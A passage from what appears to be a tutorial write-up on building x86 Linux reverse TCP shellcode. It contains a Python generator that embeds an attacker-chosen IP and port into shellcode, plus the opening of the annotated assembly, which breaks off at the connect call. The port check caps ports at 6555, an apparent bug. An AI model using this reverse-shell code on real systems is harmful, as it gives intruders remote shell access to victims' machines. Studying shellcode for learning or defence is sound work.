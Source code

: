 ``` python
if (len(sys.argv) == 1) or (len(sys.argv) == 2):
  port = 1337
  ip= "127.0.0.1"
else:
  ip = sys.argv[1]
  port = int(sys.argv[2])
  if port < 1 or port > 6555:
    print("Specify a real port")
    exit()

portNetwork = hex(socket.htons(int(port)))
portShell = "\\x"  + portNetwork[4:6] + "\\x" + portNetwork[2:4]

ipDivided = ip.split('.')
ipShell = ""
for byte in ipDivided:
  ipShell += "\\" + format(int(byte), '#04x')[1:]

shellcode = shellcodeBeforeIP + ipShell + shellcodeAfterIP + portShell + shellcodeAfterPort
if "00" in shellcode:
  print("There was a null byte found in the shellcode. Please change the port or the shellcode!")
print(shellcode)
```
To ensure this is also working I execute the python script with IP 127.0.0.1 and port 4444. Then I copied the shellcode in the C file and compiled and ran it. The output you see below:

![PythonCreation](images/PythonCreation.png)

![Listen4444](images/Listen4444.png)



## Whole Assembly code
``` assembly
global _start
_start:
    ;SOCKET
    ;Creating a socket socketcall with syscall
    ;int syscall(SYS_socketcall, int call, unsigned long *args);
    ;int socket(int domain, int type, int protocol);
    xor eax, eax
    xor ebx, ebx
    mov bl, 0x01            ;ebx = 1 --> call = socket

    push eax                ;push protocol = 0 for socket function
    push 0x01               ;push type = 1 --> SOCK_STREAM for socket function
    push 0x02               ;push domain = 2 --> AF_INET for socket function
    mov ecx, esp            ;save pointer to arguments in ecx
    mov al, 0x66            ;eax = 0x66 --> socketcall
    int 0x80                ;--> syscall = 0x80

    mov edi , eax           ;save socket for later usage in edi


    ;CONNECT
    ;int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```